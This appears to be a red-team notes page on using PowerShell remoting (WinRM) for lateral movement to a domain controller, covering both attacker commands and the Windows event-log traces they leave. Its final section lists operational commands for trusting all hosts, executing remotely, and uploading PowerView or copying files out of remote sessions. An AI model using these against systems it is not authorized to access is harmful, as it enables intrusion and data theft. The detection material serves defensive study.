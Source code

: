 ```yaml
---
description: PowerShell remoting for lateral movement.
---
```


# WinRM for Lateral Movement

## Execution

Attacker establishing a PSRemoting session from a compromised system `10.0.0.2` to a domain controller `dc-mantvydas` at `10.0.0.6`:

{% code title="attacker@10.0.0.2" %}
```csharp
New-PSSession -ComputerName dc-mantvydas -Credential (Get-Credential)

  Id Name            ComputerName    ComputerType    State         ConfigurationName     Availability
 -- ----            ------------    ------------    -----         -----------------     ------------
  1 Session1        dc-mantvydas    RemoteMachine   Opened        Microsoft.PowerShell     Available

PS C:\Users\mantvydas> Enter-PSSession 1
[dc-mantvydas]: PS C:\Users\spotless\Documents> calc.exe
```
{% endcode %}

## Observations

Note the process ancestry:

![](../../.gitbook/assets/wsmprovhost-calc.png)

![](../../.gitbook/assets/wsmprovhost-calc-sysmon.png)

On the host that initiated the connection, a `4648` logon attempt is logged, showing what process initiated it, the hostname where it connected to and which account was used:

![](../../.gitbook/assets/winrm-local-logon-events.png)

The below graphic shows that the logon events `4648` annd `4624` are being logged on both the system that initiated the connection (`pc-mantvydas - 4648`) and the system that it logged on to (`dc-mantvydas - 4624`):

![](../../.gitbook/assets/winrm-logons-both.png)

Additionally, `%SystemRoot%\System32\Winevt\Logs\Microsoft-Windows-WinRM%4Operational.evtx` on the host that initiated connection to the remote host, logs some interesting data for a task `WSMan Session initialize` :

```markup
- <Event xmlns="http://schemas.microsoft.com/win/2004/08/events/event">
- <System>
  <Provider Name="Microsoft-Windows-WinRM" Guid="{A7975C8F-AC13-49F1-87DA-5A984A4AB417}" /> 
  <EventID>6</EventID> 
  <Version>0</Version> 
  <Level>4</Level> 
  <Task>3</Task> 
  <Opcode>1</Opcode> 
  <Keywords>0x4000000000000002</Keywords> 

  # connection iniation time
  <TimeCreated SystemTime="2018-07-25T21:13:36.511895800Z" /> 
  <EventRecordID>673</EventRecordID> 

  # a unique connection ID
  <Correlation ActivityID="{037F878B-8DF6-4F1A-BA51-432C3CDDCB47}" /> 

  # process ID that initiated the connection
  <Execution ProcessID="3172" ThreadID="2844" /> 
  <Channel>Microsoft-Windows-WinRM/Operational</Channel> 
  <Computer>PC-MANTVYDAS.offense.local</Computer> 
  <Security UserID="S-1-5-21-1731862936-2585581443-184968265-1001" /> 
  </System>
- <EventData>

  # remote host the connection was initiated to
  <Data Name="connection">dc-mantvydas/wsman?PSVersion=5.1.14409.1005</Data> 
  </EventData>
  </Event>
```

...same as above just in the actual screenshot:

![](../../.gitbook/assets/winrm-eventlogs.png)

![](../../.gitbook/assets/winrm-session-information.png)

Since we entered into a PS Shell on the remote system `(Enter-PSSession)` , there is another interesting log showing the establishment of a remote shell - note that the ShellID corresponds to the earlier observed `Correlation ActivityID`:

![](../../.gitbook/assets/winrm-shell.png)

## Additional Useful Commands

[Jules Adriaens](https://twitter.com/@Expl0itabl3) reached out to me and suggested to add the following useful commands, so here they are:

```csharp
# Enable PowerShell Remoting on the target (box needs to be compromised first)
Enable-PSRemoting -force

# Check if a given system is listening on WinRM port
Test-NetConnection <IP> -CommonTCPPort WINRM

# Trust all hosts:
Set-Item WSMan:\localhost\Client\TrustedHosts -Value * -Force

# Check what hosts are trusted
Get-Item WSMan:\localhost\Client\TrustedHosts

# Execute command on remote host
Invoke-Command <host> -Credential $cred -ScriptBlock {Hostname}

# Interactive session with explicit credentials
Enter-PSSession <host> -Credential <domain>\<user>

# Interactive session using Kerberos:
Enter-PSSession <host> -Authentication Kerberos

# Upload file to remote session
Copy-Item -Path C:\Temp\PowerView.ps1 -Destination C:\Temp\ -ToSession (Get-PSSession)

# Download file from remote session
Copy-Item -Path C:\Users\Administrator\Desktop\test.txt -Destination C:\Temp\ -FromSession (Get-PSSession)
```

## References

{% embed url="http://www.hurryupandwait.io/blog/a-look-under-the-hood-at-powershell-remoting-through-a-ruby-cross-plaform-lens" %}

{% embed url="https://attack.mitre.org/wiki/Technique/T1028" %}

